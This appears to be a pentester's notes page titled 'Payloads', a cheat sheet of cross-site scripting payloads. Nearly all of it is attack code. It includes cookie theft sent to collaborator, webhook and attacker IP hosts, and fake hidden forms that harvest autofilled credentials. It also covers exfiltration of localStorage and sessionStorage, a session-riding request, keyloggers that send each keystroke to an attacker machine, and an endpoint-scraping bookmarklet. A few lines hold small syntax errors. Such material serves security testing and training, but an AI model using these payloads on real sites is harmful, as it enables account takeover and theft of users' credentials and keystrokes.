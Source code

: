 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Payloads

{% hint style="info" %}
[XSS Filter Evasion Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html) (OWASP)
{% endhint %}

## Stealing Cookies

{% tabs %}
{% tab title="<img>" %}
```javascript
<img src="http://localhost?c='+document.cookie+'" />
```
{% endtab %}

{% tab title="fetch (1)" %}
```javascript
fetch("http://localhost?c="+document.cookie);
```
{% endtab %}

{% tab title="Collaborator" %}
```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', 
    {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
    });
</script>
```
{% endtab %}

{% tab title="Webhook" %}
{% code overflow="wrap" %}
```javascript
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}
{% endtab %}

{% tab title="external" %}
{% code title="xss.js" %}
```javascript
// save the value of the cookie in a variable
let cookie = document.cookie
// URL-encode the variable
let encodedCookie = encodeURIComponent(cookie)
// make a GET request to our attacker machine exfiltrating the cookie
fetch("http://192.168.45.214/exfil?data=" + encodedCookie)
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Autofilled Credentials

{% tabs %}
{% tab title="createForm.js" %}
{% code title="createForm.js" overflow="wrap" %}
```javascript
// create the input elements
let usernameField = document.createElement("input")
usernameField.type = "text"
usernameField.name = "username"
usernameField.id = "username"

let passwordField = document.createElement("input")
passwordField.type = "password"
passwordField.name = "password"
passwordField.id = "password"

// append the elements to the body of the page
document.body.appendChild(usernameField)
document.body.appendChild(passwordField)

// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)
setTimeout(function() {
 console.log("Username:", document.getElementById("username").value)
 console.log("Password:", document.getElementById("password").value)
}, 1000);
```
{% endcode %}
{% endtab %}

{% tab title="savedCreds.js" %}
{% code title="savedCreds.js" %}
```javascript
// save the body of the document into a var
let body = document.getElementsByTagName("body")[0]

// create the username element
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

// create the password element
var p = document.createElement("input");
p.type = "password";
u.style.position = "fixed";
//u.style.opacity = "0";

// append elements to the body
body.append(u)
body.append(p)

// set a GET request after a 5 second timeout
setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Local Secrets

{% tabs %}
{% tab title="Local Storage" %}
```javascript
let data = JSON.stringify(localStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}

{% tab title="Session Storage" %}
```javascript
let data = JSON.stringify(sessionStorage)
let encodedData - encodeURIComponent(data)
fetch("http://<attackerIP>/exfil?data=" + encodedData)
```
{% endtab %}
{% endtabs %}

## Session Riding

{% tabs %}
{% tab title="XMLHttpRequest" %}
```javascript
let xhr = new XMLHttpRequest();
xhr.open('POST','http://localhost/updateprofile',true);
xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
xhr.send('email=updated@email.com’);
```
{% endtab %}
{% endtabs %}

## Keylogging

{% tabs %}
{% tab title="Log keypresses" %}
```javascript
document.onkeypress = function(e) {
 get = window.event ? event : e
 key = get.keyCode ? get.keyCode : get.charCode
 key = String.fromCharCode(key)
 console.log(key)
}
```
{% endtab %}

{% tab title="Fetch keypresses" %}
{% code title="keylogger.js" %}
```javascript
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key)
}
// for each keypress, execute the callback function
document.addEventListener('keydown', logKey);
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Remote Resources

{% tabs %}
{% tab title="fetch" %}
```javascript
fetch('http://localhost/endpoint’)
```
{% endtab %}

{% tab title="<img>" %}
```javascript
<img src='http://localhost/file' />
<img src='x' onerror='http://localhost/file' />
<img src="x" onerror="window.location.href='https://localhost/file'">
```
{% endtab %}

{% tab title="<script>" %}
```javascript
<script src='http://localhost/file'></script>
```
{% endtab %}
{% endtabs %}

## Sorcery?

{% tabs %}
{% tab title="?" %}
{% code overflow="wrap" %}
```javascript
javascript:(function(){var scripts=document.getElementsByTagName("script"),regex=/(?<=("|'|`))/[a-zA-Z0-9_?&=/-#.]*(?=("|'|`))/g;const%20results=new%20Set;for(var%20i=0;i<scripts.length;i++){var%20t=scripts[i].src;""!=t&&fetch(t).then(function(t){return%20t.text()}).then(function(t){var%20e=t.matchAll(regex);for(let%20r%20of%20e)results.add(r[0])}).catch(function(t){console.log("An%20error%20occurred:%20",t)})}var%20pageContent=document.documentElement.outerHTML,matches=pageContent.matchAll(regex);for(const%20match%20of%20matches)results.add(match[0]);function%20writeResults(){results.forEach(function(t){document.write(t+"<br>")})}setTimeout(writeResults,3e3);})();
```
{% endcode %}
{% endtab %}
{% endtabs %}
